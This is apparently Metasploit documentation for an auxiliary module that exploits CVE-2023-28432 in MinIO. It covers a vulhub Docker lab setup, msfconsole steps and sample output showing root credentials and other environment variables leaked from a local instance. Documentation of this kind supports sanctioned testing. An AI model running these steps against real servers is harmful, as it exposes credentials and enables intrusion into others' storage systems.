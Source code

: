 ## Vulnerable Application

MinIO is a Multi-Cloud Object Storage framework. In a cluster deployment starting with
RELEASE.2019-12-17T23-16-33Z and prior to RELEASE.2023-03-20T20-16-18Z, MinIO returns
all environment variables, including `MINIO_SECRET_KEY` and `MINIO_ROOT_PASSWORD`,
resulting in information disclosure.

### Docker Image

1. Download docker yml: https://raw.githubusercontent.com/vulhub/vulhub/master/minio/CVE-2023-28432/docker-compose.yml
1. Execute `docker-compose up` inside the same directory containing the docker-compose.yml
1. Then MinIO's login page should be available at http://127.0.0.1:9001/

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/gather/minio_bootstrap_verify_info_disc.rb`
1. Do: `set rhost [IP]`
1. Do: `run`
1. You should get MinIO Environmental Variables

## Options

## Scenarios

### MinIO 2023-02-27T18:10:45Z from docker image

```
resource (msf)> set rhost 127.0.0.1
rhost => 127.0.0.1
resource (msf)> set rport 9000
rport => 9000
msf6 auxiliary(gather/minio_bootstrap_verify_info_disc) > run
[*] Reloading module...
[*] Running module against 127.0.0.1

[+] MINIO_ACCESS_KEY_FILE: access_key
[+] MINIO_CONFIG_ENV_FILE: config.env
[+] MINIO_KMS_SECRET_KEY_FILE: kms_master_key
[+] MINIO_ROOT_PASSWORD: minioadmin-vulhub
[+] MINIO_ROOT_PASSWORD_FILE: secret_key
[+] MINIO_ROOT_USER: minioadmin
[+] MINIO_ROOT_USER_FILE: access_key
[+] MINIO_SECRET_KEY_FILE: secret_key
[+] MinIO Environmental Variables Json Saved to: /root/.msf4/loot/20240131112953_default_127.0.0.1_minio.env.json_772811.json
[*] Auxiliary module execution completed
```